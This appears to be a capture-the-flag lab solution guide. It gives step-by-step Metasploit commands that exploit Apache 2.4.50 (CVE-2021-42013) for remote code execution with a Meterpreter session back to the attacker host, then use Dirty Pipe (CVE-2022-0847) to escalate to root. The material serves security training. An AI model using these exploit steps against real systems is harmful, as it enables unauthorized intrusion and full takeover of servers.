

# You'll Find A Way! 

*Solution Guide*

## Overview

This solution guide walks you through finding and exploiting vulnerable services to obtain challenge tokens. All answers for *You'll Find A Way!* are generated dynamically. The format for the answers is a first name, followed by a last name and then a two digit number. The format is CamelCase with no spaces. For example: `JohnDoe23`.

## Question 1

### Network discovery
1. Check your IP address on the `analyst` VM: `ip a`

2. Now that you know your IP address, scan the network using `nmap` to see which additional hosts and open ports are available.

   Since your IP address is in the `10.5.5.0` network and you have a subnet mask of `/24`, use the following command to scan the network: `nmap -sV 10.5.5.0/24`

   The purpose of the `-sV` parameter is to determine the version of the service running on the ports discovered on each host. Here is a screen capture of a similar output. **Your IP addresses might be different**.



>**Note:** For the rest of this guide, we will use `10.5.5.120` as the `analyst` box IP address and `10.5.5.56` as the IP address for the `outdated-xeno` box. Your IPs might be different than the ones found in this guide. 

There is an additional box (`outdated-xeno`) with two services on different open ports: ssh on port `22` 	and http on `80`. The service running on port `22` is `OpenSSH version 9.0p1` and the service running on port `80` is `Apache version 2.4.50`. 

4. Since port 80 is open, navigate to `http://10.5.5.56:80` on Firefox and notice the website is under construction. 

### Scanning discovered IP for vulnerabilities

>OpenVAS is stopped on startup to avoid consuming resources.

1. Using the information gathered above, scan the IP address you found for any known vulnerabilities. First, start OpenVAS using the following command: `sudo gvm-start`
1. Once OpenVAS starts, it should open the web interface automatically. If it didn't, then open Firefox and navigate to the following URL: `https://127.0.0.1:9392` and use the provided OpenVAS credentials.
1. Navigate to the `Scans` tab. Hover over the "magic wand" on the upper left, then click **Task Wizard**. Now, you can enter the IP you discovered (`10.5.5.56` in this guide) and click **Start Scan**. This will automatically begin to scan the provided IP address for vulnerabilities. 
4. The scan should take less than 15 minutes. The progress of the scan is shown on the **Scans** tab, under **Tasks**.  To see the vulnerabilities found, hover the **Scans** tab and click **Vulnerabilities**. 

5. Once the scan finishes, on the **Vulnerabilities** tab,  notice there is a **High Severity Vulnerability** found related to the **Apache HTTP Server 2.4.49 - 2.4.50**. If you select this vulnerability, you can see valuable information, including the CVE related to this vulnerability. In this case, the **CVE is CVE-2021-42013**. This vulnerability allows an attacker to achieve remote code execution (RCE). Let's get to work. 

### Apache 2.4.50 vulnerability exploit

1. Since you know the vulnerability allows RCE, let's see if Metasploit has an exploit we can use. Let's open metasploit with the following command: `msfconsole`
2. Once metasploit opens, use the search command to see if there is an exploit for the CVE you found: `search CVE-2021-42013`
3. Great news, you found two exploits. By reading the **Description**, the first one looks like it would help us better because the other one says it is just a scanner. Enter the following command: `use 0`
4. Let's see how to configure this exploit to work correctly: `show options`
5. We want to focus first on the ones that are `Required` such as RHOSTS, RPORT and LHOST. `RHOSTS` stands for `Remote Hosts`, `RPORT` stands for `Remote Port` and `LHOST` stands for `Local Host`. To set the new values for this settings, type the following commands. 
```
set RHOSTS 10.5.5.56
set RPORT 80
set LHOST 10.5.5.120
```
6. Since the port doesn't require negotiating any SSL for outgoing connections, you need to also change the `SSL` setting: `set SSL false`

7. Now that the options are set, run the exploit: `run`

You should now have a Meterpreter session open.

### User navigation on Meterpreter

1. Now that you have a Meterpreter session, figure out which user you obtained access to: `getuid`
2. You have access to `user`. Since you know the first flag is on the `user`'s Desktop, you can navigate there with the following command: `cd /home/user/Desktop/`
3. See what files are there: `ls`
4. You will see a file named **token1.txt** and another one called **IMPORTANT.txt**. Read the contents of `token1.txt` first: `cat token1.txt`
   You found the first token on the `user` Desktop. 
5. Read the other file: `cat IMPORTANT.txt` 
6. Based on this document, the kernel version of this image is outdated. Do a quick Open Source Intelligence (OSINT) to find out what's wrong. You should find that this kernel version has a vulnerability known as **The Dirty Pipe** vulnerability (CVE-2022-0847). 
>Make sure to keep this Meterpreter session **open** since you will be using it in the second part of this challenge.

## Question 2

### The Dirty Pipe vulnerability

Exploiting The Dirty Pipe vulnerability allows overwriting data in local, arbitrary read-only files. This can lead to privilege escalation because unprivileged processes can inject code into root processes. We'll continue using our part Metasploit session to exploit this vulnerability.

1. From the same Meterpreter session you had open, run: `background`
   The `background` command sends your Meterpreter session to the background and returns you to the Metasploit console. Hence, if you type the following command, it will show you the running sessions. 
   Make sure to write down or remember your session ID: `sessions`
2. Having the previous session running in the background will allow you to run an additional exploit on that session. Here's how this works.
3. Start by searching for an exploit for The Dirty Pipe vulnerability: `search CVE-2022-0847`
4. Notice there is only one exploit to choose. Let's use it: `use 0`
5. Once you choose the exploit, you need to see how to configure it to work correctly. Let's start by seeing the options available: `show options`
6. The first setting we want to configure is the **SESSION**. Use the session ID you wrote down (or remembered) here. In our case, it was session ID `1`: `set SESSION 1`
7. Then, let's set the other **REQUIRED** field which is LHOST: `set LHOST 10.5.5.120`
8. Once you finish configuring your exploit options, run the exploit: `run`

### Root access obtained

1. You now have a new Meterpreter shell available; verify the current user: `getuid`
2. And, just like that, you are root! The description of the challenge tells you that the second flag should be on the `/root/` directory. Navigate there: `cd /root/`
3. To see what's in the directory, type: `ls`
4. You should see a file called **token2.txt**. Read its contents: `cat token2.txt`

...and you should now have the second flag.
